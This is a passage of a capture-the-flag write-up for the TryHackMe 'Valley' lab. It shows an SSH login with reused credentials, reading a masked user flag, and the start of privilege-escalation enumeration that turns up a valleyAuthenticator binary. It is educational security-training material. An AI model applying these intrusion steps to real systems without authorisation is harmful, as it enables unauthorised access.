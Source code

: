 ![](../assets/img/valley-tryhackme-writeup/9.png)

We reuse the credentials found in the SSH service and read the *user.txt* file:

```
> ssh valleyDev@10.10.140.77
The authenticity of host '10.10.140.77 (10.10.140.77)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.140.77' (ED25519) to the list of known hosts.
valleyDev@10.10.140.77's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ sudo -l
[sudo] password for valleyDev: 
Sorry, user valleyDev may not run sudo on valley.
valleyDev@valley:~$ ls -lna
total 24
drwxr-xr-x 5 1002 1002 4096 Mar 13 08:17 .
drwxr-xr-x 5    0    0 4096 Mar  6 13:19 ..
-rw-r--r-- 1    0    0    0 Mar 13 09:03 .bash_history
drwx------ 3 1002 1002 4096 Mar 20 20:02 .cache
drwx------ 4 1002 1002 4096 Mar  6 13:18 .config
drwxr-xr-x 3 1002 1002 4096 Mar  6 13:18 .local
-rw-rw-rw- 1    0    0   24 Mar 13 08:17 user.txt
valleyDev@valley:~$ cat user.txt 
THM{****************}
valleyDev@valley:~$ 
```


## Privilege Escalation
We enumerate the *valleyAuthenticator* file and download the file in our machine.

```
valleyDev@valley:/mnt$ cd /home
valleyDev@valley:/home$ ls -lna
total 752
drwxr-xr-x  5    0    0   4096 Mar  6 13:19 .
drwxr-xr-x 21    0    0   4096 Mar  6 15:40 ..
drwxr-x---  4 1001 1001   4096 Mar 20 20:03 siemDev
drwxr-x--- 16 1000 1000   4096 Mar 20 20:54 valley
-rwxrwxr-x  1 1000 1000 749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 1002 1002   4096 Mar 13 08:17 valleyDev
valleyDev@valley:/home$ 

valleyDev@valley:/home$ file valleyAuthenticator
```